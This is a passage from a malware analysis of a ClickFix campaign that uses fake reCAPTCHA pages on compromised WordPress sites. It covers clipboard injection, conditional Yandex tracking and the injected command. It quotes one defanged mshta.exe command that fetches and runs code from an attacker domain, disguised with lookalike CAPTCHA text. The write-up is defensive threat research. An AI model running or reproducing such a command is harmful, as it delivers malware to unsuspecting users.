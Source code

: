<figure>
<img
src="../Malware-as-a-Smart-Contract%20-%20Weaponising%20BSC%20to%20Target%20Windows%20Users%20via%20WordPress/9234f593b8aac0b77277c0f0da26aa859ff17f97.png"
alt="AscreenshotofacomputerprogramAI-generatedcontentmaybeincorrect." />
<figcaption
aria-hidden="true">AscreenshotofacomputerprogramAI-generatedcontentmaybeincorrect.</figcaption>
</figure>

Figure 15 stageClipboard func

Another interesting aspect involves the 'isGoalReached()' function, which triggers a conditional tracking mechanism when the victim fails to complete the fake reCAPTCHA verification process, as determined by 'isGoalReached()'. When verification fails, it first modifies the display properties of the container holding the HTML, CSS, and JavaScript logic for the fake reCAPTCHA and ClickFix windows. The script then dynamically loads the Yandex Metrika analytics script to monitor "click tracking," "link interaction logging," and "bounce rate measurement." This implementation suggests that the attacker is likely interested in analysing and recording the behaviour of suspicious visitors or potential bots, as legitimate victims who pass verification would bypass this tracking entirely.

<figure>
<img
src="../Malware-as-a-Smart-Contract%20-%20Weaponising%20BSC%20to%20Target%20Windows%20Users%20via%20WordPress/23e458166933fdc21ffef1b6b149e42b30ed8143.png"
alt="AscreenshotofacomputerprogramAI-generatedcontentmaybeincorrect." />
<figcaption
aria-hidden="true">AscreenshotofacomputerprogramAI-generatedcontentmaybeincorrect.</figcaption>
</figure>

Figure 16 Yandex Tracking

<figure>
<img
src="../Malware-as-a-Smart-Contract%20-%20Weaponising%20BSC%20to%20Target%20Windows%20Users%20via%20WordPress/f2213e20fc6b6878632ba2b9314d95fa49c025e8.png"
alt="AscreenshotofacomputerprogramAI-generatedcontentmaybeincorrect." />
<figcaption
aria-hidden="true">AscreenshotofacomputerprogramAI-generatedcontentmaybeincorrect.</figcaption>
</figure>

Figure 17 Container for reCAPTHA/ClickFix Windows

The 'commandToRun' variable holds the command injected into the victim's clipboard. As we can see, this command is different from the command: "mshta.exe https\[:\]//check\[.\]bibyn\[.\]icu/gkcxv\[.\]google?i=xxxxxxxxxx \# Нυmаn, nоt а гοbоt: ϹΑРТСНА Ⅴегіfіϲаtіоп ΙD:xxxx". At the time I began investigating and downloaded the payload, two weeks had passed since I first encountered the compromised website and the malicious Base64 blob in stage 1. This observation suggests that the threat actor actively modifies the malicious commands over time. In both cases, the commands include a UUID.![](../Malware-as-a-Smart-Contract%20-%20Weaponising%20BSC%20to%20Target%20Windows%20Users%20via%20WordPress/31ca9c1dd16f58274b60459ee8ec5135b5f3d7ab.png)

Figure 18 commandTorun
